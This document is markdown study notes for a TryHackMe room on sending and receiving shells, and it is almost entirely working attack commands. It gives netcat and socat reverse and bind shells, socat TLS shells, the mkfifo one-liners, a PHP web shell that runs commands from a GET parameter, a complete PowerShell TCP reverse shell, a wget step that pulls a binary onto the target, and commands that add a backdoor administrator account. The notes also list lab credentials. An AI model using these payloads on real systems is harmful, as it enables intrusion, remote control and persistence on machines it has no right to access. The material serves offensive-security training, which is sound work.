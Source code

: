 <!-- TOC -->

- [What the Shell?](#what-the-shell)
    - [Tools](#tools)
        - [Reverse Shells](#reverse-shells)
        - [Bind Shells](#bind-shells)
    - [Netcat Shell Stabilisation](#netcat-shell-stabilisation)
        - [Fully stable Linux tty reverse shell Only for Linux:](#fully-stable-linux-tty-reverse-shell-only-for-linux)
    - [Socat Encrypted Shells](#socat-encrypted-shells)
        - [Reverse shell](#reverse-shell)
        - [Bind shell](#bind-shell)
    - [Common Shell Payloads](#common-shell-payloads)
    - [Next Step](#next-step)
    - [Practice and Examples](#practice-and-examples)

<!-- /TOC -->

# What the Shell?

[What the Shell? Room](https://tryhackme.com/room/introtoshells)

An introduction to sending and receiving (reverse/bind) shells when exploiting target machines.

## Tools

- Netcat
- Socat
- Metasploit -- multi/handler
- Msfvenom
- [Reverse Shell Generator](https://www.revshells.com/)
- [revshellgen](https://github.com/t0thkr1s/revshellgen)
- `/usr/share/webshells`

### Reverse Shells

```bash
nc -lvnp <port-number>
```

```bash
socat TCP-L:<port> -
```

Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (`80`, `443` or `53` being good choices) as this is more likely to get past outbound firewall rules on the target.

To connect back:

- On Windows:

```cmd
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

- On Linux:

```bash
nc <target-ip> <chosen-port>
```

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


### Bind Shells

```bash
nc -lvnp <PORT> -e /bin/bash
```

- On Linux:

```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```

- On Windows:

```cmd
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the `pipes` argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

To connect:

```bash
nc <LOCAL-IP> <LOCAL-PORT>
```

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Netcat Shell Stabilisation

- `python` for linux
    1. `python -c 'import pty;pty.spawn("/bin/bash")'` - Note: some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
    2. `export TERM=xterm` - this will give us access to term commands such as `clear`.
    3. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note: if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

- `rlwrap` for windows
    - `sudo apt install rlwrap`
    - `rlwrap nc -lvnp <port>`

Note: when dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

- `socat` for linux
    - Transfer a socat static compiled binary up to the target machine. `sudo python3 -m http.server 80`, then, on the target machine, `wget <LOCAL-IP>/socat -O /tmp/socat`.

 If you want to use something like a text editor which overwrites everything on the screen.

Open another terminal and run:

 ```bash
stty -a
 ```

 In your reverse/bind shell, type in:

 ```bash
stty rows <number>
stty cols <number>
 ```

### Fully stable Linux tty reverse shell (Only for Linux):

Here is the new listener syntax:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

[Precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

- `pty`, allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`, creates the process in a new session
- `sane`, stabilises the terminal, attempting to "normalise" it.

## Socat Encrypted Shells

Generate a cert:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

### Reverse shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Note: that the certificate must be used on whichever device is listening.

To connect back:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Bind shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

## Common Shell Payloads

Bind:

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Reverse:

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Webshell (PHP):

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

Powershell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Next Step

For Windows only:

```cmd
net user <username> <password> /add
```

```cmd
net localgroup administrators <username> /add
```

## Practice and Examples

| Title | IP Address | Username | Password |
| :---- | :---- | :---- | :---- |
| Linux Shell Practice | 10.10.131.227 | shell | TryH4ckM3! |
| Win Shell Practice | 10.10.123.247 | Administrator | TryH4ckM3! |
